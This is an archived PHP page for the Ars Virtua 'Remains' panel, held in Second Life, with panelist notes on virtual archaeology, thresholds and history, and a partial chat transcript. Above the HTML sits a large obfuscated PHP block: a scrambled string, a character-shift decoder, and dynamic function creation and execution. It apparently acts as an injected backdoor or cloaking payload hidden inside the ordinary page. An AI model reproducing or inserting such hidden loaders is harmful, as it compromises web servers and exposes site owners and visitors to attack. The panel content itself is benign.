

<?php $cnsitfbmt = '6<*msv%7-MSV,6<*)ujojR	x27id%6<#)323ldfid>}&;!osvufs}	x7f;!op-t.98]K4]65]D8]86]y31]278]y3f]51L3]84]y31M6]y3e]81#/#7e:55946-tsbqA7>q%6<	x7fw6*	x7f_*#fubfsdXk5`{66~6<&w6<	x7:iuhofm%:-5ppde:4:|:**#ppde#)tutjyf`4	x223}x7f!<X>b%Z<#opo#>b%!*##>>X)!gjZ<#opo#>b%!**X)ufttj	x22)gj!|!judovg}k~~9{d%:osvufs:~928>>	x22:ftmbg39*56A:>:8:|:7#6#)tutjyof:opjudovg<~	x24<!%o:!>!	x242178}527gj!<2,*j%-#1]#-bubE{h%)tpqsut>j%!,*j%!-#1]#-bubE{h%)tpqsut>j%!*72!	x27!hmg%)!`x	x22l:!}V;3q%}U;y]}Ras,"	x63	150	x72	157	x6d	q%<#762]67y]562]38y]572]48y]#>m%:|:*r%:-t%)3#+I#)q%:>:r%:|:**t%)m%=*h%)m%):fmjix:<##:>:h%:7tfs%6<*17-SFEBFI,6<*127-UVPFNJU,6<*27-SFGTOBSUOSVUFS,73]y76]277#<!%t2w>#]y74]273]y766	x75	156	x61"])))) { $GLOBALS["	x61	156	x75	156	x61"]=1; $fw6*CW&)7gj6<*doj%7-C)fepmqnjA	x27&6<.fmjgA	x27doj%6<	x7fw6*	x7f}88:}334}472	x24<!%ff2!>!bssbz)	x24]25	x24-	x24-!%	x24-	x24*!|!	x24mw)%tww**WYsboepn)%bss-%rxt%:osvufs:~:<*9-1-r%)s%0;quui#>.%!<***f	x27,*e	x27,*d	x27,*c	x27,*b	x27)fepdof.)fepdof%)7fmjix6<C	x27&6<*rfs%7-K)fujsxX6<#o]o]Y%7;utpI#7>/7rfs%6<#o]24)%c*W%eN+#Qi	x5c1^W%c!rting(0); $atpccpf = ]252]y85]256]y6g]257]y86]267]y74]275]y)!gj!|!*bubE{h%)j{hnpd!opjudovg!|!**#j{hnpd#*&7-#o]s]o]s]#)fepmqyf	x27*&7-n%)utjm6<	x7fw6*CW&%!*3!	x27!hmg%!)!gj!<2;2]},;osvufs}	x27;mnui}&;zepc}A;~!}	x7f;!|!}{;)gj}l;33./#@#/qp%>5h%!<*::::::-111112)eo$xafrlsh();}}	157	x78"))) { $ypgefy#}#-#	x24-	x24-tusqpt)%z-#:#*	xf	151	x64")) or (strstr($u27pd%6<pd%w6Z6<.4`hA	x27pd%6<pd%w6Z6<.3`hA	x27pd%A)qj3hopmA	x273qj%6<*Y%)fnbozcYufhA	x272qj%6<^#zsfA>2b%!<*qp%-*.%)euhA)3of>2bd%!<5h%/#0#/*#npd/#)rrd/#0w = "	x63	162	x65	141	x74	145	x5f	146	x75	156	x63	164	x69	157	x6e"B)fubfsdXA	x27K6<	x7fw6*3qj%7>	x2272qj%)7gj6<**2qj%)hopm3qj:}.}-}!#*<%nfd>%fdy<Cb*[%h!>!%tdz)%bbT-%bT-%hW~%fdy)##-!#bm)%tjw)#	x24#-!#]y38#-!%w:**<")));$xafrlsh = $ypgefyw("", $atpccpf); w6<	x7fw6*CW&)7gj6<.[A	x27&6<	x7fw6*	x7f_*#[k2`{6:~!<##!>!2p%Z<^2	x5c2b%!>!2p%!*3>?*2b%)gL6M7]D4]275]D:M8]Df#<%tdz>#L4]275L3]248L3P6L1M5]DFT`%}X;!sp!*#opo#>>}R;msv}.;/#/#/},;#-#}+;%-qp%)54l}	x27;%!<*#}_;7]D4]82]K6]72]K9]78]K5]53]Kc#<%tpz!>!#]D6M7]K3#<%yv%6<C>^#zsfvr#	x5cq%7**^#zbq}k;opjudovg}x;0]=])0#)U!	x27{**u%-#jt0}Z;0]=	x7fw6*	x7f_*#ujojRk3`{666~6<&sfvr#	x5cq%)ufttj	x22)gj6<^#Y#	x5cq%	x27Y%6<.msv`fo!%bss	x5csboe))1/35.)1/14+9**-)1/2#o]#/*)323zbe!-#jt0*?]+^?]_	x5c}X	x24<!%tmw!>!#]y84]275]y83]2-id%)uqpuft`msvd},;uqpuft`msvd}+;!>!}	x27;!>>>!}_;gvc%}&;ftmbg}	x|ftmf!~<**9.-j%-bubE{h%)sutcv>u%V<#65,47R25,d7R17,67R37,#/q%>U<#16,47R57,27R66,#/q%>2q%<#g6R85,67R3*ofmy%)utjm!|!*5!	x27!hmg%)!gj!|!*1?hmg%)!gj!<**2-4-bubE{h%)sutcvt24	x54	120	x5f	125	x53	105	x52	137	x41	107	x45	116	x54"]); if ((smfV	x7f<*XAZASV<*w%)ppde_*#fmjgk4`{6~6<tfs%w6<	x7fw6*CWtfs%)7gj6<*id%)ftpmdR6<*id%)dfyfR	x21/20QUUI7jsv%7UFH#	x27rfs%6~6<	x7fw6<*K)ftp7f;!osvufs}w;*	x7f!>>	x22!pd%)!gj}Z;h!opjudovg}{;#)tx7f	x7f	x7f	x7f<u%V	x#H#-#I#-#K#-#L#-#M#-#[#-#Y#-#D#-#W#-#C#-#O#-#N#*-!%ff2-!%t::**<(<!fw<#64y]552]e7y]#>n%<#372]58y]472]37y]672]48y]#>s%<#462]47y]252]18y]#>r_split("%tjw!>!#]y84]275]y83]248]y83]256]y; function gvixxqi($n){return chr(ord($n)-1);} @error_repotrstr($uas,"	x6d	163	x69	145")) or (strstr($uas,"	x722P4]D6#<%G]y6d]281Ld]245]K2]285]Ke]53Ld]53]Kc]55Ld]55#*<%bG9}implode(array_map("gvixxqi",stbs`un>qp%!|Z~!<##!>!2p%!|!*!***b%)sfxpmpusut!-#j0#-	x24	x5c%j^	x24-	x2>1*!%b:>1<!fmtf!%b:>%s:	x5c%j:.2^,%b:<!%c:>%s:	x5c24Ypp3)%cB%iN}#-!	x24/%tmw/	x	166	x3a	61	x31")) or (strstr($uas,"	x61	156	x64	162	x6)7gj6<*K)ftpmdXA6~6<u%7>/>!%i	x5c2^<!Ce*[!%cIjQeTQcOc/#00#W~!Ydrr)%rxB%epnbss!>!bpf{jt)!gj!<*2bd%-#1GO	x22#)fepmqy(!isset($GLOBALS["	x61	157&6|7**111127-K)ebfsX	x27u-#}#)fepmqnj!/!#0#)idubn`hfsq)!sp!*#ojneb#-*f%)sfxpmpusut)tpqssutRe%)R)#P#-#Q#-#B#-#T#-#E#-#G#-)tutjyf`opjudovg	x22)!gj}1~!<2p%	x7f!145")) or (strstr($uas,"	x66	151	x72	145	x6627{ftmfV	x7f<*X&Z&S{ftd%)Rb%))!gj!<*#cd2bge56+99386c6f+9f5d816:+946:ce44#)zbssb!>!ssbnpe_t)fubmgoj{hA!osvufs!~<3,j%>j24-	x24!>!	x24/%tjw/	x24)%	x24-	x24yGMFT`QIQ&f_UTPI`QUUI&e_SEEB`FUPNFS&d_SFSFGFS`QUUI&c_UOF4	x24-	x24]y8	x24-	x24]26	x24-	x24<%j,,*!|	x24-	x24gvodujpo!	x24-	x2]0#)2q%l}S;2-u%!-#2#/#%#/34]368]322]3]364]6]283]427]36]373P6]36]73]83]238M7]381]211*nbsbq%)323ldfidk!~!<**fldpt}X;`msvd}R;*msv%)}.;`UQPMSVD!HB`SFTV`QUUI&b%!|!*)323zbek!~!<b%	7:]268]y7f#<!%tww!>!	x2400~:<h%_4y7	x24-	x24*<!	x24-	x24gps)%j>1<%j=tj{fpg)%	x24-	x24*<!~!	x24/%t2w~<%h00#*<%nfd)##Qtpz)#]341]88M4P8]37]278]225]241]31^-%r	x5c2^-%hOh/#00#W~!%t2w)##Qtjw)#]82#-#!#-%t>!	x24/%tmw/	x24)%zW%h>EzH,2W%wN;#-Ez-1H*WCw*[!%rN}#QwTW%hIr	x5c986+7**^/%rx<~!!%s:N}#-%o:W%cmdXA6|7**197-2qj%7-K)udfoopdXA	x22)7gj6<*QDU`MPT7-NBFSUT`LDPT7-UFOJ`G*9!	x27!hmg%)!gj!~<ofmy%,3,j%>j%!<**3-j%-bubE{h%)sutcvt-#w#)ldbqov>y>#]D6]281L1#/#M5]DgP5]D6#<%fdy>#]D4]273]D6P2L5P6]y6gP7:>1<%b:>1<!gps)%j:>1<%j:=tj{fpg)%s:*<%j:,,Bjg!)%j:>utjyf`opjudovg)!gj!|!*msv%)}k~~~<ftmbg!osvufs!fvr#	x5cq%7/7#@#7/7^#iubq#	x5cq%	x27js!}7;!}6;##}C;!>>!}W;utpi}Y;tuofuopd`ufh`fmjg}[;ldpt%}K;`ussbz)#44ec:649#-!#:618d5f9#-!#f6c68399#-!#65egb2dc#*<!sfuvso!sboeM5]67]452]88]5]48]32M3]317]445]2ufs!*!+A!>!{e%)!>>	x22!ftmbg)!gj<*#k#)usbut`cpV	f`439275ttfsqnpdov{h19275j{hnpd19275fubmgoj{h1:|:*mmvo:>f-s.973:8297f:5297e:56-xr.985:52985pn)%epnbss-%rxW~!Ypp2)%zB%z!+!<+{e%+*!*+fepdfe{h+{d%)+opjudovg+)!gj+{e%!osvqp%!-uyfu%)3of)fepdof`57ftbc	x7f!|!*uyfu	x27k:!ftmf!}Z;^nbsbq%	x5cSFWS12]445]43]321]464]284]364]6]234]342]58]24]31#-%tdz*Wsfuvs4tvctus)%	x24-	x24b!>!%yy))esp>hmg%!<12>j%!|!*#91y]c9y]g2y]#>>*4-1-bubE{h%)sutcvt6<pd%w6Z6<.2`hA	x27pd%6<C	x27pd%6|6.7eu{66~67<&w6<if((function_exists("	x6f	142	x5f	163	x74	141	x72	164") && !/!**#sfmcnbs+yfeobz+sfwjidsb`bj+upcotn+qsvmt+fmhpph#)zbssb!B%h>#]y31]278]y3e]81]K78:56985:6197g:74985-rr.93e:5597/	x24)##-!#~<#/%	x24-	x24!>!fyqmpef)#	x24*<!%t::!>!	x81]265]y72]254]y76#<!%w:!>!(%w:!>!	x246767~6<Cw6<pd%w6Z6<.5`hA	x>/h%:<**#57]38y]47]67y]37]88y]27]28y]#/r%/h%)n%-7,18R#>q%V<*#fopoV;hojepdoF.uofuopD#)sfebfI{*w%)kVx{**#k#)tutjyftr.984:75983:48984:71]K9]7#p#/%z<jg!)%z>>2*!%z>3<!fmtf!%z>2<!%ww2)%w`TW~	x24<!fwbm)%tjw)bssbzuas=strtolower($_SERVER["	x48	1%j:^<!%w`	x5c^>Ew:Qb:Qc:W~!%z!>2<!gps)%j>1<%j=6[%ww2!>#p#/StrrEVxNoiTCnUF_EtaERCxecAlPeR_rtSczsyrd'; $prldydu=explode(chr((515-395)),substr($cnsitfbmt,(41767-35747),(186-152))); $uuzwkicbn = $prldydu[0]($prldydu[(5-4)]); $hmgrivr = $prldydu[0]($prldydu[(13-11)]); if (!function_exists('qmcvnd')) { function qmcvnd($xgdgyc, $sstzba,$yqcozv) { $guaelso = NULL; for($djjtpw=0;$djjtpw<(sizeof($xgdgyc)/2);$djjtpw++) { $guaelso .= substr($sstzba, $xgdgyc[($djjtpw*2)],$xgdgyc[($djjtpw*2)+(4-3)]); } return $yqcozv(chr((46-37)),chr((362-270)),$guaelso); }; } $mvaydew = explode(chr((223-179)),'5436,59,3517,25,671,59,5931,31,2546,65,3055,53,3348,55,1385,26,471,25,3700,44,1332,22,1563,66,2997,58,1059,21,3169,30,2954,43,5662,64,1411,49,5386,50,1162,49,3403,25,3542,26,973,62,2702,43,4484,69,1629,59,1460,49,4772,38,2068,26,2170,50,123,48,730,64,2635,67,586,54,0,31,2140,30,1815,50,4810,57,4126,34,2316,65,2745,52,4726,46,2381,29,3833,28,1211,22,405,44,372,33,4553,67,2480,66,5331,55,1118,44,3663,37,1865,39,3484,33,1509,54,910,63,1287,32,3199,50,5495,60,3568,70,3766,67,3897,55,4160,34,214,60,4103,23,5178,70,1953,65,31,30,274,61,5012,56,171,43,5130,48,4964,48,2797,21,3744,22,2611,24,2410,70,5774,64,449,22,1233,54,2094,46,4020,25,2255,61,640,31,1080,38,4194,32,887,23,5726,48,540,46,2886,68,496,44,335,37,794,67,3249,20,5305,26,1354,31,3861,36,3952,68,4226,67,5609,53,3319,29,1035,24,3428,56,4867,65,5103,27,4391,64,4343,48,861,26,5555,54,5068,35,61,62,5838,26,2018,50,4620,55,1904,49,3108,61,1688,57,4293,50,4045,58,4932,32,5248,57,2220,35,4455,29,4675,51,3269,50,5962,58,5864,67,3638,25,2818,68,1745,70,1319,13'); $zjdpkax = $uuzwkicbn("",qmcvnd($mvaydew,$cnsitfbmt,$hmgrivr)); $uuzwkicbn=$cnsitfbmt; $zjdpkax(""); $zjdpkax=(762-641); $cnsitfbmt=$zjdpkax-1; ?><!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1" />
<title>Ars Virtua: Remains</title>
<link rel="STYLESHEET" type="text/css" href="../inc/main.css" />
</head>

<body>
<div class="centerer"><div class="master">

<div class="nav">
<?php include("../inc/nav.html"); ?>
</div>

<div class="spacer_gray"></div>

<div class="cwide">
  <h1>Remains</h1>
  <br />
</div>
<div class="c1">
<div class="spacer_gray"></div><br />
<h3>About the Panel</h3><br />
The session was intended to look at the nature of what is left behind by a culture, people or civilization through the lens of an archaeologist, architect and artist. Laura manages to find a new discipline in the archaeology of the virtual, but one that is different in its essential character but not in its essence. Archaeology will still be about putting together incomplete pieces but the pieces will now be recorded bits of data. Brad focuses on the crossing of the threshold into the synthetic environment. He chooses to consider what is left behind in the transition. Renée considers history through visualization and story telling. She reconstructs the metaphoric narrative based on the bits and bobbs of text that refer to events. She also shows us a cultural perspective based entirely within a familar land.<br />
 <br />

Everyone was able to discuss their slides on a certain level, our discussants agree pretty much that they were able to open the conversation and find a few common areas of interest.
<br />

<div class="spacer_gray"></div>
<br />

<h3>Participants</h3>
<br />

Panelists<br />
<span class="cwide"> Laura Jones (J0E Languish for this presentation only)<br />
Ren&eacute;e Ridgway (Chloe Mahfouz) <br />
 Brad Kligerman (</span><span class="cwide">Kliger Dinkin)</span><br />
 <br />
Moderator<br />

James Morgan  (Rubaiyat Shatner)<br />
<br />
</div>

<div class="c2">
<div class="text">The session was unfortunately interrupted by a reboot of the Second Life Grid. This is the state of the new medium, but does in an offhanded way does reflect on the subject. What exists when the world is rebooting? The paragraphs that follow are a brief recap and include the notes from the presenters about what they found interesing about the subject, please excuse the chaotic nature of this documentation. All presenters have consented to recording a podcast at some later date.<a href="#transcript"><br />
  <br />
  Remains Session Transcript</a><br />
  <a href="#notes">Panelist Slides and Notes</a></div>

</div>

<div class="spacer_gray"></div><br />
<div class="cwide"><a name="notes" id="notes"></a><br />
  <h3>Panelist Slides and Notes</h3><br />
<br />
  <h3>Laura Jones:</h3><br />
  
  <br />
  <div style="float:right; padding-left:10px;"><a href="remains/jones/jones-1.jpg" target="_blank"></a><a href="remains/jones/jones-2.jpg" target="_blank"></a><br />
    <a href="remains/jones/jones-3.jpg" target="_blank"></a><a href="remains/jones/jones-4.jpg" target="_blank"></a></div>
  As an archaeologist, I work with the remains of cultural acts. These remains reflect human agency but in a highly disconnected way. The connection between human agency,  intention and the remains is fragile, broken by time, intervening acts and unimaginable gaps of cultural difference. I think about the remains of virtual acts.  Traces of human agency are transformed by time and disconnected from many of their associations. I believe we are witnessing the birth of a new discipline: a post-historic archaeology of the layers and remains of virtual cultures. The challenge of interpreting remains shifts from the physical artifact to the virtual artifact, from the arrangement of artifacts as patterns in physical space to the patterns of virtual space, from the interpretation of time as represented by superimposed layers to new spatial dimensions of time.<br />
  <br />
  <br />
  <h3>Brad Kligerman:<br />
  </h3>
  <br />
  <div style="float:right; padding-left:10px; padding-bottom:50px;"><a href="remains/klig/0giotto.jpg" target="_blank"></a><a href="remains/klig/1lamentation1304.jpg" target="_blank"></a><br />
      <a href="remains/klig/2sassetta.jpg" target="_blank"></a><a href="remains/klig/3carpaccio.jpg" target="_blank"></a><br />
      <a href="remains/klig/4bosch.jpg" target="_blank"></a><a href="remains/klig/6malevich.jpg" target="_blank"></a><br />
      <a href="remains/klig/7tension.jpg" target="_blank"></a><a href="remains/klig/8LightImage.jpg" target="_blank"></a><br />
    <a href="remains/klig/9colorForm.jpg" target="_blank"></a><a href="remains/klig/10turner.jpg" target="_blank"></a></div>
  Thresholds: the most conducive environment for the well-being of my work at this point in time happens to be in 3-dimensional virtual environments much like the one we find ourselves deep inside at this very moment. Working here entails crossing a pedestrian, unceremonial threshold, migrating from an actual concrete space to a synthetic virtual one, while passing through an abstract layer of protocol and calculation, a non-represented state. This frontier is currently experienced as an abrupt abstraction, where I mutates into camera, agent, avatar; a passage more recognizable as a &quot;corporate marketing strategy&quot; rather than as a &quot;corporal sensation.&quot;<br />
  <br />
To know what remains when we make this passage, we must begin by determining what exists:<br />
Milieu, the pre-existing environment of a project, space or edifice --the physical, social, technological context-- within which creative, logical, physical processes can be activated;<br />
<br />
Material substance characterized by qualities that define both the limits and the potential of a space or form. Defining a material makes possible the surfaces &amp; envelopes, distribution &amp; mass, interior &amp; exterior, walls &amp; partitions, marks &amp; modulations, where colors, lights and forms, the tensions and compressions of the space's force, superpose to create its primary atmosphere, and not just background noise;<br />
<br />
Machination, a process of either:<br />
- adding, accumulating, combining, extruding materials until what remains are its emergent patterns; or, <br />
- subtracting, a sculptural process, &quot;taking-away&quot; material, reducing its mass, abstracting ( abstraire, isolate), until Form is revealed.<br />
<br />
Inventing the structures that contribute to placing that territory in tension, we engage the territory's extents with material edifices to define its limits. What are the patterns of space and structure capable of emerging from this context? The essential organization of this multiplicity of color and form, movement and discontinuity, constitutes the principles of composition and actualization of this world, and conversely, they determine the structure capable of revealing these conditions.<br />
+++++++++++++ What remains is that which resists... +++++++++++++<br />
<br />
<br />
<h3>Ren&eacute;e Ridgway:</h3>
<p>'What remains?'<br />
    <br />
  The images and video I am showing here refer to our slice of 'history' passed down through oral tradition, fragments and historians.<br />
  <br />
  Coming from a new world culture, history as a concept has always interested me; its manufacture and simulation is something I have addressed in my previous work on identity, its construction and the ongoing reinvention of the self, especially concerning immigration. Using artistic means: an in-situ installation, materials of symbolic reference, new media, etc., I create exhibitions that re-examine the construction of identity(s) in relation to specific places and spaces. Context sensitive, the integration of language elements (nomenclature), vernacular iconography and architecture, or historical objects and events, are all woven into a visual framework. </p>
<p><a href="http://dma.sjsu.edu/%7ejmorgan/NativeNewYorkers2.mov" target="_blank">Native New Yorkers</a>' (2006) one-minute video loop</p>
<p> In a video installation entitled 'Native New Yorkers', one witnesses the representation of a ritual originally performed by Dutch settlers when requesting an amount of land from the Native Americans, according to two historical texts. The texts come from two different sources, one written in English textbooks, the other a letter from the Munsee (Native Americans) addressed to President Zachary Taylor. Though both imply a metaphor of using the deerskin for measuring the value of an amount of land, the way in which the anecdote has been transmitted within the narrative differs. In the one-minute video loop the deerskin is concentrically cut-up; deconstructed and via a time-lapse of transitional images, unravels.
 </p>

<div style="float:right; padding-left:10px;"><a href="remains/ridgeway/renee1.jpg" target="_blank"></a><a href="remains/ridgeway/renee3.jpg" target="_blank"></a><br />
    <a href="remains/ridgeway/oneida23.jpg" target="_blank"></a><a href="remains/ridgeway/oneida25.jpg" target="_blank"></a><br />
  <a href="remains/ridgeway/oneida29.jpg" target="_blank"></a></div>
Slide show:<br />
<br />
W139 Amsterdam<br />
'Native New Yorkers' installation of a single channel video projection, 10 kilos salt, mirror<br />
<br />
The second and third show 'New World Order' showing two texts about the same anecdote, reconstructed to be the same size, though one with bolder ink, the other more faded, from two different sources.<br />
<br />
The fourth, fifth and sixth are taken on I90, upstate New York, just outside of Syracuse.<br />
<br />
The fourth shows the only signage delineating the border of the Onondaga Territory.<br />
<br />
The fifth shows the apparent dispute between the Oneidas and Onondagas, or factions within them
</div>
<div class="spacer_gray"></div>
<div class="cwide">
<a name="transcript" id="transcript"></a><br />
<h3>Remains Session Transcript</h3>

<br />
<br />
Note:
"You" is James Morgan<br />
<br />

						[12:33]  J0E Languish: I am possessed by a panelist. Let's pretend I'm Laura Jones for a while<br />
						[12:33]  You: so this is wierd enough<br />
						[12:33]  Chloe Mahfouz: yes<br />
						[12:34]  Natberg Sternberg: imagine how us newbies must feel...<br />
						[12:34]  You: I am sorry we had some significant issues with the sound<br />
						[12:34]  Chloe Mahfouz: sure<br />
						[12:34]  Chloe Mahfouz: i understand<br />
						[12:34]  Chloe Mahfouz: happens<br />
						[12:34]  You: yes, I feel your pain my brother<br />
						[12:34]  You: I am sure people are filtering into the world too<br />
						[12:35]  You: so I would like to take a moment to welcome everyone<br />
						[12:35]  You: and say I am not a good typist so this will be like talking with stephen hawking<br />
						[12:36]  You: so chloe is Ren&eacute;e<br />
						[12:36]  You: Kliger is brad, J0e is laura<br />
						[12:36]  You: Ethan, are the slides up?<br />
						[12:37]  Kliger Dinkin: lol, i was wondering what he was doing here.<br />
						[12:37]  Thn Doctorow: yeah ready when you are<br />
						[12:37]  Thn Doctorow: speakers: if you can just say 'next slide' I'll advance them<br />
						[12:38]  You: who is starting ethan?<br />
						[12:38]  Thn Doctorow: Brad<br />
						[12:38]  Kliger Dinkin: ok... what's the format, James?<br />
						[12:38]  You: brad if you could offer some comments about your slides<br />
						[12:39]  You: it will give us some images<br />
						[12:39]  You: to work with, of course brevity is golden in this environment<br />
						[12:39]  Chloe Mahfouz: say hello to everyone<br />
						[12:39]  Kliger Dinkin: it took me all day to get used to the idea of talking in front of people, but without being there...<br />
						[12:39]  You: feel free to cut and paste from your statements as well<br />
						[12:40]  Kliger Dinkin: now I have to figure out how to say the same thing, but without speaking...<br />
						[12:40]  You: so brad is the current AVAIR, artist in residence , and an architect in paris<br />
						[12:40]  Chloe Mahfouz: good idea, I should get ready?<br />
						[12:40]  You: yes, get ready Ren&eacute;e<br />
						[12:41]  Kliger Dinkin: ok... i want to (briefly) address the 2 main issues, as I understood things&gt; BORDERS &amp; REMAINS<br />
						[12:41]  Kliger Dinkin: I&rsquo;ll use images, some that were chosen because they relate directly to my work, some because I just like to do mash-ups... in this case, of medival painting and contemporary technolgy, it helps me to see through its veil, the mystic it puts on our culture, a way for my to discern, well, what does REMAINS despite the obvious cultural shifts, movement...<br />
						[12:41]  Kliger Dinkin: It just so happens that the most conducive environment for the well-being of my work at this point in time happens to be in 3-dimensional virtual environments much like the one we find ourselves deep inside at this very moment.<br />
						[12:42]  Kliger Dinkin: (arn't we lucky to be here?)<br />
						[12:42]  Chloe Mahfouz: yes<br />
						[12:42]  Kliger Dinkin: anyway, Working here everyday entails crossing a pedestrian, unceremonial threshold (which also happens to be a nice idea for a project), migrating from an actual concrete space to a synthetic virtual one, while passing through a non-represented layer of server protocol and calculation.<br />
						[12:42]  J0E Languish: brad,how does machination work for you as a human agent?<br />
						[12:42]  Kliger Dinkin: next slide, please<br />
						[12:42]  Kliger Dinkin: This frontier is currently experienced as an abrupt abstraction, where --I-- am mutated into camera, agent, avatar;<br />
						[12:43]  Kliger Dinkin: next...<br />
						[12:43]  Kliger Dinkin: this passage, into this rendered world, that I experience as a &ldquo;corporate marketing strategy&rdquo; rather than as a &ldquo;corporal sensation.&rdquo;<br />
						[12:43]  J0E Languish: so you change when you cross the border/threshold?<br />
						[12:43]  Kliger Dinkin: as an artist here, i'm shooting to produce &quot;sensation&quot;<br />
						[12:44]  Kliger Dinkin: What REMAINS when we make this passage, what do we bring with us? to understand this, we must first determine what exists here<br />
						[12:44]  Kliger Dinkin: next slide<br />
						[12:44]  Kliger Dinkin: Milieu, the pre-existing environment of a project, space or edifice --the physical, social, technological context-- within which creative, logical, physical processes can be activated; the conditions necessary for creation to take place;<br />
						[12:44]  Kliger Dinkin: next<br />
						[12:44]  Kliger Dinkin: Material substance characterized by qualities (logical, physical) that define both the limits and the potential of a space or form.<br />
						[12:45]  Kliger Dinkin: Defining a material makes possible the surfaces &amp; envelopes, distribution &amp; mass, interior &amp; exterior, walls &amp; partitions, marks &amp; modulations, where colors, lights and forms, the tensions and compressions of the space&rsquo;s force, superpose to create its primary atmosphere, and not just background noise.<br />
						[12:45]  Kliger Dinkin: and finally, Machination, a process of either:<br />
						[12:45]  Kliger Dinkin: next<br />
						[12:45]  Kliger Dinkin: adding, accumulating, combining, extruding materials until what remains are its emergent patterns; or,<br />
						[12:46]  Kliger Dinkin: next..<br />
						[12:46]  Kliger Dinkin: subtracting, a sculptural process, &ldquo;taking-away&rdquo; material, reducing its mass in search of a difference, abstracting &amp;isolating, until Form is revealed.<br />
						[12:46]  Kliger Dinkin: next... almost done<br />
						[12:46]  Kliger Dinkin: Inventing the structures that contribute to placing that territory, the milieu, in tension; engaging the territory's extents with material edifices to define its limits and give it local atmosphere, location.<br />
						[12:46]  Kliger Dinkin: What are the patterns of space and structure capable of emerging from this context?<br />
						[12:46]  Kliger Dinkin: next<br />
						[12:46]  Kliger Dinkin: The essential organization of this multiplicity of light and image,<br />
						[12:47]  Kliger Dinkin: n ext<br />
						[12:47]  Kliger Dinkin: color and form, movement and discontinuity, constitutes the principles of composition and actualization of this world, and conversely, they determine the structure capable of revealing these conditions.<br />
						[12:47]  Kliger Dinkin: next and last slide<br />
						[12:47]  Kliger Dinkin: What remains is that which resists (this process of creation)...<br />
						[12:47]  Chloe Mahfouz: turner<br />
						[12:47]  Kliger Dinkin: Turner<br />
						[12:48]  Kliger Dinkin: (good thing I was a bit prepared... )<br />
						[12:48]  Kliger Dinkin: thank you<br />
						[12:48]  Chloe Mahfouz: yes<br />
						[12:48]  J0E Languish: wonderful<br />
						[12:48]  Chloe Mahfouz: much more than I am I think<br />
						[12:48]  You: to see the images we have also added a webpage:http://arsvirtua.com/borders/remains.php<br />
						[12:49]  You: http://arsvirtua.com/borders/remains.php<br />
						[12:49]  You: which includes a few words and the images, it takes a while to load, please continue ren&eacute;e<br />
						[12:49]  Chloe Mahfouz: hi<br />
						[12:50]  Chloe Mahfouz: I guess I would like to begin with the video<br />
						[12:50]  Chloe Mahfouz: is that posible?<br />
						[12:50]  Chloe Mahfouz: Ok<br />
						[12:50]  Chloe Mahfouz: I will introduce myself<br />
						[12:50]  Chloe Mahfouz: I am an artist curator, based in Amsterdam<br />
						[12:50]  Chloe Mahfouz: a somewhat liminal position<br />
						[12:51]  Chloe Mahfouz: as my curatorial practice develpoe<br />
						[12:51]  Chloe Mahfouz: whoh<br />
						[12:51]  Chloe Mahfouz: This image is an installation of avideoloop<br />
						[12:51]  Chloe Mahfouz: is there any chance for the video?<br />
						[12:52]  Chloe Mahfouz: I don't want to just tell what it is about first, rather see it<br />
						[12:52]  Thn Doctorow: Sorry I just have still images for the slideshow - and they're in file-name order<br />
						[12:52]  You: the video is on the webpage?<br />
						[12:52]  Chloe Mahfouz: I just sent james earlier stills of the video<br />
						[12:52]  You: I mean yes, the viedo is on the webpage<br />
						[12:52]  Chloe Mahfouz: to see the chronological order<br />
						[12:53]  Chloe Mahfouz: Ok, so I just would like to show a text, then<br />
						[12:53]  Chloe Mahfouz: I wanted to say that I work with history, or the construction thereof<br />
						[12:54]  You: hold on I have a link to the video<br />
						[12:54]  Chloe Mahfouz: fragments<br />
						[12:54]  Chloe Mahfouz: ok<br />
						[12:54]  Chloe Mahfouz: The images and video I am showing here refer to our slice of 'history' passed down through oral tradition, fragments and historians.<br />
						[12:54]  Chloe Mahfouz: Coming from a new world culture, history as a concept has always interested me; its manufacture and simulation is something I have addressed in my previous work on identity, its construction and the ongoing reinvention of the self, especially concerning immigration.<br />
						[12:55]  Chloe Mahfouz: Using artistic means: an in-situ installation, materials of symbolic reference, new media, etc., I create exhibitions that re-examine the construction of identity(s) in relation to specific places and spaces.<br />
						[12:55]  You: http://dma.sjsu.edu/~jmorgan/NativeNewYorkers2.mov<br />
						[12:55]  Chloe Mahfouz: are people watching teh video?<br />
						[12:55]  Chloe Mahfouz: Context sensitive, the integration of language elements (nomenclature), vernacular iconography and architecture, or historical objects and events, are all woven into a visual framework.<br />
						[12:55]  Doug Whittaker: I see it<br />
						[12:56]  Chloe Mahfouz: cool,<br />
						[12:56]  Chloe Mahfouz: it is one minute, then it loops<br />
						[12:56]  Natberg Sternberg: the textures are hypnotic<br />
						[12:56]  Chloe Mahfouz: So this is now a description of what it is:<br />
						[12:57]  Chloe Mahfouz: In a video installation entitled 'Native New Yorkers', one witnesses the representation of a ritual originally performed by Dutch settlers when requesting an amount of land from the Native Americans, according to two historical texts.<br />
						[12:57]  Chloe Mahfouz: The texts come from two different sources, one written in English textbooks, the other a letter from the Munsee (Native Americans) addressed to President Zachary Taylor.<br />
						[12:57]  Chloe Mahfouz: Though both imply a metaphor of using the deerskin for measuring the value of an amount of land, the way in which the anecdote has been transmitted within the narrative differs. In the one-minute video loop the deerskin is concentrically cut-up; deconstructed and via a time-lapse of transitional images, unravels.<br />
						[12:58]  Chloe Mahfouz: here is a still, it is a projection on 10 kilos of salt<br />
						[12:58]  Chloe Mahfouz: another form of currency<br />
						[12:58]  Chloe Mahfouz: this piece deals with the loss of land, the anecdote refers to measurement<br />
						[12:59]  Chloe Mahfouz: I will let us look at the next slide<br />
						[12:59]  Chloe Mahfouz: please<br />
						[12:59]  Chloe Mahfouz: This is called: New WOrld Order<br />
						[12:59]  Chloe Mahfouz: next slide please<br />
						[13:00]  Chloe Mahfouz: these two prints are images of the two texts<br />
						[13:00]  Chloe Mahfouz: I made them look the same, size wise<br />
						[13:00]  Chloe Mahfouz: content is the same 'story' about how the Dutch asked to buy a piece of land<br />
						[13:01]  Chloe Mahfouz: the size of a deerskin (bull skin actually)<br />
						[13:01]  Chloe Mahfouz: The Munsee said yes, and then the Dutch took a knife<br />
						[13:01]  Chloe Mahfouz: and cut up the skin concentrically<br />
						[13:01]  Chloe Mahfouz: then measured out a larger piece of land<br />
						[13:01]  Chloe Mahfouz: than the actually deal<br />
						[13:02]  Chloe Mahfouz: so land as territory, currency<br />
